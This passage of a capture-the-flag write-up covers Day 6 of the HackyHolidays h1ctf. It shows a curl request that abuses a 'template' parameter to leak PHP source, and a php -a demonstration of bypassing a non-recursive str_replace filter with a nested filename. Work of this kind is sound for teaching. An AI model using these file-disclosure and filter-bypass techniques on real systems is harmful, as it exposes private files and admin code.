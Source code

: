 flag and a grinch picture :)


----------------------------------------------------------------


## Day 6


my-diary is day6's challenge here https://hackyholidays.h1ctf.com/my-diary/ 
by browsing main page we're redirected to `/my-diary/?template=entries.html`

i tried /my-diary/entries.html and it show's the same content, so i assumed that the file is provided to template GET parameter is being read and shown
also i tried checking which backend it is, after few tries, home page is index.php
so i tried reading it and i got the source code


```PHP
$ curl "https://hackyholidays.h1ctf.com/my-diary/?template=index.php"

<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
}else{
    //redirect to home
    header("Location: /my-diary/?template=entries.html");
    exit();
}
```

looks like we have a local file disclosure bug if the file name matches the regex `[a-zA-Z0-9.]`, any other chars will be truncated

now, browsing to /secretadmin.php says that we are not allowed to view it from my ip, `You cannot view this page from your IP Address`

the file read bug to the rescue then,
we have str_replace used twice to truncate strings `admin.php` and `secretadmin.php`
luckily str_replace is not recursive

```
$ php -a
Interactive mode enabled

php > echo str_replace("admin.php","","admadmin.phpin.php");
admin.php
php > 

```
